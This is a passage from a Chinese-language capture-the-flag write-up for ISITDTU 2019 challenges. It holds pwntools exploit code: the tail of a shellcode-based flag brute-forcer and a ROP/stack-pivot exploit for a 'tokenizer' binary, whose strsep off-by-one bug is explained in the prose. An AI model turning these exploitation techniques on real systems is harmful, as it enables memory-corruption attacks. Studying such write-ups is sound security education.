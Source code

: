 ```python
	mov al,byte ptr [rdi]
	xor al,bl
	mov rbx,{}
	mov cl,byte ptr [rbx]
	xor al,cl
	sub al,{}
	jnz .+0x299

	mov al,0x3
	mov rdi,rax
	mov al,0x25
	syscall
sleeptodie:
	jmp sleeptodie

	'''.format(idx%8*8,(0xcafe000+(idx%8)),0xcafe008+idx,ord(guess))
	p.send(asm(s))

	try:
		print p.read()
	except KeyboardInterrupt:
		flag+=guess
		print flag
		return True
	except :
		pass
	print flag
	return False
#exp(0,"n")

for i in range(0x18):
	for x in (string.ascii_letters+"0123456789"+"_!@#$%^&*&*)-+"):
		res=exp(i,x)
		if(res):
			break

```
# tokenizer
漏洞点在`strsep`因为是对字符串进行操作所以注意点一般是末尾有没有补0,这个binary显然是没有的所以会对`rbp`也进行操作
因为有两个`leave`所以可以做`stack magration`控制执行流.愚昧的我本来还以为`stack`地址后面24位开了`aslr`也是和`heap`一样的固定的事实上是会变的...
导致我开了`aslr`后才发现`rbp`最后一字节并不是一直是`\x80`...(我exp看起来比较奇怪繁琐的原因...因为如果是`\x80`我就不能直接`leak`)
```python
from pwn import *
#context.log_level='debug'
libc=ELF("./tokenizer").libc
p=process('./tokenizer')

#gdb.attach(p,'b *0x00000000040131F')

ret=0x8080808080401016
rdi=0x808080808040149b
rsi=0x8080808080401499
puts=0x8080808080401080
got=0x8080808080403f90
cout=0x8080808080404020
cin=0x8080808080404140
read=0x8080808080401030
magic=0x8080808080404288
reuse=0x8080808080401378
pay=p64(ret)*116+p64(magic)+p64(ret)*5+p64(rdi)+p64(cout)+p64(rsi)+p64(got)+p64(ret)+p64(reuse)
p.sendlineafter(": ",pay)
p.read(0x418)
```

[1]: https://github.com/n132/WriteUps/tree/master/2019_ISITDTU